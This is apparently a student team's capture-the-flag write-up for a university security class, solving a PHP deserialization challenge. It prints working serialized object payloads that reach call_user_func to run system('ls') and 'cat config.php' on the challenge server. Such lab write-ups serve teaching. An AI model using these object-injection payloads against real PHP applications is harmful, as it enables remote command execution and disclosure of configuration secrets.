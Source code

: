 ![](images/cover.png)

## Decription
This is our task from teacher at NT521.ANTT pratical class (Nghi Hoang Khoa) ^^. My team called by **54010N** and you can see us in [CTF Time](https://ctftime.org/team/143012)
As teacher say, our work is find out flag of challenge by exploiting the PHP serialize/deserialize vulnerability.

## The challenge
Link: *http://45.122.249.68:10001*
If you're lazy, you can see the quick code below:
{%- gist #### %}

## Analytics
By reading and following the code, we analysed the code and proposed a few judgments (*for convenient in handling, we get the code back local and handle on it*):

**Source code overview**
If `isset($_GET['code']` not null, the site will unserialize the code input which we can put it into the site to request.
The code input is a object type. We have to serialize the code to right format and request to server. **(1)**

**About *class User***
```php
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name; //???something went wrong here!!!
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
```
We realize that at the line 5, author uses`$this->$name = $name;` instead of `$this->$name = $name;`.

By *our test below*, we see that the output will add a "54010N" property into User object with the value as same as property's name.
[](images/usertest.png)

Moreover, the `$name` and `$is_admin` properties are changed to `Username` and `Useris_admin` ?? :smile: ??.  *What is special when author make that?* **(2)**

**About *class Show_color***
I put the code of User class here so that you can follow easily:
```php
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
```

You can see that this class have the `call_user_func()` which have the feature like callback function [(call the callback function)](https://www.php.net/manual/en/function.call-user-func.php). So, here is probably the key of the challege ^^. We can use it to call any the function in program :3.

In line `call_user_func($this->type->adu,$this->color);`, the first parameter will call `$this->type->adu` but *where is `adu` property?*

**About *class do_nothing***
As the class name, it's not relate to something in this challenge.

## Solution

After trying many ways, we was finally find out the way to capture the flag. Let's us begin with step by step!

Remember to the previous section, in User class, *construc()* function use `$this->$name = $name;` instead of `$this->name = $name;` and we had a question in there. At here, everything seemed to mutual matching. We can use `call_user_func()` to force User's class construct a new user object and add a `adu` property into it. And with this way, we will try to use `system("ls")` command to explore some files which is archived on server through `call_user_func()`.

First, we will generate a **adu** user and serialize it to object format.

```php
$user = new User("adu"); //create new user "adu"
$code = serialize($user); //serialize to object format
echo $code;
```
> Output: `O:4:"User":3:{s:10:"Username";N;s:14:"Useris_admin";b:0;s:3:"adu";s:3:"adu";}`

Next, we try to call `call_user_func()` through *Show_color* class to call *"ls"* command.
```php
$user = new User("adu"); //Create new user "adu"
$showcolor = new Show_color($user, 'ls');
$code = serialize($showcolor);
echo $code;
```
> Output: `O:10:"Show_color":2:{s:5:"color";s:2:"ls";s:4:"type";O:4:"User":3:{s:10:"Username";N;s:14:"Useris_admin";b:0;s:3:"adu";s:3:"adu";}}`
Using this output as payload:
![](images/wrong.png)

The *ls* command is not execute and the server return a error. So we need to repair the payload.
- As mention in **(1)**, `name` and `is_admin` in User's class were added the string *"User"* to head so we need to remove it before request to server.
- We have to change the `is_admin` from `false` to `true` by change the *"is_admin";b:0;"* as *"is_admin";b:1;"* so that we can become a importor as admin.
- Specialy, the server is not compile `system("ls")` command because the `adu` property have *adu* value rather than *system* value. So, the system will be compile *adu("ls")* instead of *system("ls")*. That is the reason why we must to change the value of `adu` property to *"system"*.

Now, let's request by the changed payload: `O:10:"Show_color":2:{s:5:"color";s:2:"ls";s:4:"type";O:4:"User":3:{s:4:"name";N;s:8:"is_admin";b:1;s:3:"adu";s:6:"system";}}`:
![](images/rightway.png)

Yeah, we are success when execute `system("ls")` on the server. Now our work is checking files and find out the flag because the string *"hi admin, here is your flag"* is not the flag :(((
> Payload: `O:10:"Show_color":2:{s:5:"color";s:14:"cat config.php";s:4:"type";O:4:"User":3:{s:4:"name";N;s:8:"is_admin";b:1;s:3:"adu";s:6:"system";}}`

*Ctrl + U* is shortcut key to view source and it's the way that we captured the flag :3
![](images/flag.png)

**Note:***When we changed the payload, the important thing that we need to remember is changing the length of property*
## Flag
> **flag{n0j_l0j_pk4j_qju_l4y_l0j_dunq_nku_c0n_bu0m_d4u_r0j_l4j_b4y}**
